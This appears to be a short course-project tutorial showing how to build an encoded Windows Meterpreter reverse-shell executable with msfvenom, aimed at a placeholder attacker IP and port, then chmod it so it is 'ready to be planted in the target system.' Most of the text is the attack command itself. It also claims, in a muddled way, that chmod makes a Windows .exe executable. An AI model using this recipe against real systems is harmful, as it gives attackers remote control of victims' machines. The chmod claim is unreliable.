 # Creating a payload with Msfvenom

To create a Meterpreter reverse shell, execute the following command

**msfvenom -p windows/meterpreter/reverse_tcp lhost=[attacker ip] lport[attacker port] --platform windows -e x86/shikata_ga_nai -f exe -o [name of payload executable].exe**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/msfvenom.png" width="600">

---
While the file has an .exe extension, it is not actually an executable file yet. To do that, we need to make some changes to the file.

Execute the following command

**chmod 755 [name of payload executable].exe**

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/executable.png" width="600">

Now we have a payload ready to be planted in the target system.

---
